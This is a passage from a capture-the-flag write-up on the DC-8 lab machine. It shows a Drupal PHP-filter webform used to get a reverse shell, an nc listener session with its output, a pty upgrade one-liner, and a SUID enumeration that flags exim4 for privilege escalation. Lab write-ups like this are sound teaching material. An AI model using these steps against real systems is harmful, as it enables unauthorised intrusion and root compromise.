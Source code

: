 Now, we can connect to `http://dc-8/user/login` with `john:turtle`

# Reverse shell

The usual way of exploiting Drupal is via the "PHP filter" module. Click on the "Contact Us" tab, then on the "Webform" tab and then on "Form settings".

![revshell.png](files/revshell.png)

Now submit anything to the contact form and you will get a reverse shell:

~~~
kali@kali:/data/DC_8/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.163] 50894
Linux dc-8 4.9.0-4-amd64 #1 SMP Debian 4.9.51-1 (2017-09-28) x86_64 GNU/Linux
 02:48:08 up  1:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-8:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Privilege Escalation

## SUID programs

Listing programs owned by root with the SUID bit set will reveal the presence of exim4.

~~~
www-data@dc-8:/home/dc8user$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4 <----------------- outdated / vulnerable version
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
~~~
